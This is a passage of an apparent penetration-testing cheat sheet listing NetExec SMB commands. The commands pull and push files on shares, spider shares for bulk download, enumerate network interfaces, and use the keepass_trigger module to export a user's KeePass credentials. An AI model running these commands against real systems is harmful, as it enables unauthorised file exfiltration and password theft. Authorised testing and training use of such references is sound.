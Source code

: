 If large files are failing/erroring, add  `--smb-timeout` with a value than 2.

{% tabs %}
{% tab title="Download" %}
```bash
nxc smb <ip> -u <user> -p <pass> --share <share>  --get-file <file1> <file2>
```
{% endtab %}

{% tab title="Upload" %}
```bash
nxc smb <ip> -u <user> -p <pass> --share <share>  --put-file <file1> <file2>
```
{% endtab %}

{% tab title="Share" %}
{% code overflow="wrap" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=420000 OUTPUT_FOLDER=./
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Modules

#### NIC Enumeration

{% tabs %}
{% tab title="Via WMI" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M get_netconnections
```
{% endtab %}

{% tab title="Via RPC" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M ioxidresolver
```
{% endtab %}
{% endtabs %}

#### KeePass Credentials

After running it check `/tmp/export.xml`.

{% tabs %}
{% tab title="Locate Config File" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M keepass_discover
```
{% endtab %}

{% tab title="Check for Creds" %}
{% code overflow="wrap" %}
```bash
nxc smb <ip> -u <user> -p <pass> -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/julio/AppData/Roaming/KeePass/KeePass.config.xml 
```
{% endcode %}
{% endtab %}
{% endtabs %}
